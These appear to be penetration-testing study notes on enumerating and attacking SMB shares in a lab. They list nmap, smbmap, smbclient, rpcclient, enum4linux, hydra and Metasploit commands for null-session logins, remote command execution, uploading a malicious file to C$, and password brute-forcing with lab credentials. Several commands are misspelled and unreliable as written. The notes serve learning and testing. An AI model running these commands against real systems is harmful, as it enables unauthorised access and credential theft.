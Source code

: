 ```yaml
---
description: SMB is a windows implementation of file share (server message block)
---
```


# i - SMB - 135,139,445

`nmap -T4 $ip/24 --open` - scan for open ports on a subnet.

`nmap -sV -O $ip` - run a service version and OS detection scan on a specific host.

`nmap $ip -sV -sC` - service version and default scripts for more info.

### Deleting and Creating a FileShare in windows (SMB)

`net use * /delete` - in PowerShell, we can delete a mapped drive share with the cmd.

`net use Z: \\$ip\path password /user:admin` - reconnecting/mapping a file share.

### Enumerating SMB with Nmap scripts

`nmap -p445 --script smb-protocols 192.168.0.141` - enumerating smb protocols.

`map -p445 --script smb-security-mode 192.168.0.141` - security mode scan.

`nmap -p445 --script smb-enum-sessions 192.168.0.141` - enumerating active sessions.

`nmap -p445 --script smb-enum-sessions --script-args smbusername=administrator,smbpassword=smbserver_771 $ip` - to view active sessions.

`nmap -p445 --script smb-enum-shares 192.168.0.141` - list all shares.

`nmap -p445 --script smb-enum-users 192.168.0.141` - list all users.

`nmap -p445 --script smb-server-stats --script-args smbusername=msfadmin,smbpassword=msfadmin 192.168.0.141` - server statistics.

`nmap -p445 --script smb-enum-domains --script-args smbusername=root,smbpassword=root 192.168.0.141` - enumerate domains.

`sudo nmap -p445 --script smb-enum-shares,smb-ls --script-args smbusername=root,smbpassword=root 192.168.0.141` - enumerating and listing  shares.

### \[smbmap] utility

`smbmap -u guest -p "" -d . -H 192.168.0.141` - enumerating for guest acct shares.

`smbmap -H 192.168.0.141 -x 'ifconfig' -u administrator -p smbserver_771 -x 'ipconfig'` - executing the "ipconfig" cmd  by the admin with the `-x` option.

`smbmap -H 192.168.0.141 -u Administrator -p 'smbserver_771' -L` - the `-L` lists all mapped drives.

`smbmap -H 192.168.0.141 -u Administrator -p 'smbserver_771' -r 'C$'` - the `-r` lists all the content of the C drive.

`smbmap -H 192.168.0.141 -u Administrator -p 'smbserver_771' -upload '/root/malware_file' 'C$\malware_file' - we can upload a malicious file by using the` --upload\` cmd and specify the path..

`smbmap -H 192.168.0.141 -u Administrator -p 'smbserver_771' -download'C$\flag.txt' - we can download a file from the SMB server by using the` --download\` cmd.



## Samba 1

`nmap $ip -p445 --script smb-os-discovery` - OS discovery script.

### \[msfconsole] Metasploit

`use auxiliary/sscanner/smb/smb_version` , then `show options` , `set RHOSTS` , `run` - run the payload.

### \[nmblookup] utility

`nmblookup -A 192.168.0.141` - a node status lookup for the ip. When we get a "<20>" it means we have a server we can connect to. To connect, we use "smbclient" utility.

### \[smbclient] utility

`smbclient //$ip/path  -N` - logging in with no password.

`smbclient -L 192.168.0.141 -N` - listing shares and check for a NULL session with the `-N` option.

`smbclient //$ip/jane -U jane` - loggingin as jane and viewing her share.

`smbclient -L $ip -U admin` - trying to list shares as the user admin.

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

when you see an "IPC"  with a NULL session, we might be able to connect to it.

### \[rpcclient] utility

`rpcclient -U "" -N 192.168.0.141` - and we successful login.

```bash
# cmds we can run in rpcclient active session.
srvinfo  # gives info about the victim system example: os version: 6.1.

# after login, you can enumerate users
enumdomusers    # enumerate users.
enumdomgroups   # enumerate groups.
lookupnames admin    # gives us full info/SID of the admin user.
```

### \[enum4linux] utility

`enum4linux -o $ip` - enumerate OS version.

`enum4linux -U $ip` - enumerate users also.

`enum4linux -S $ip` - enumerate shares.

`enum4linux -G $ip` - enumerate groups.

`enul4linux -i $ip` - enumerating printers.

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

### \[msfconsole] Metasploit

`use auxiliary/scanner/smb/smb2` , `set RHOSTS $ip` , `run` - checking for the SMB protocol versions.



## SMB Dictionary Attack

All the tricks listed above runs well using NULL sessions, but what if NULL sessions dosent work? what if we don't have login creditentials? Then we try dictionary bruteforcing attacks.

### Using Metasploit script to bruteforce

`use auxilliary/scanner/smb/smb_login` , `options` , `set RHOSTS $1p` ,  `set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt` , `set smbuser dking` - assuming we already enumerated users and "dking" is a user. `run` .

### Using \[hydra] for  bruteforce

`hydra -l admin -P /usr/share/wordlist/rockyou.txt $ip smb` - runs the attack.

`smbmap -H $ip -u admin -p` - try and login with the password you got.



## Getting other Services that Piped through SMB with Metasploit..

`use auxiliary/smb/pipe_auditor` , `set smbuser admin` , `set smbpass password1`, `set RHOSTS $ip` , `run` .

### Getting the SID's for different users.

`enum4linux -r -u "admin" -p "password1" $ip` - enumerating users using SID.





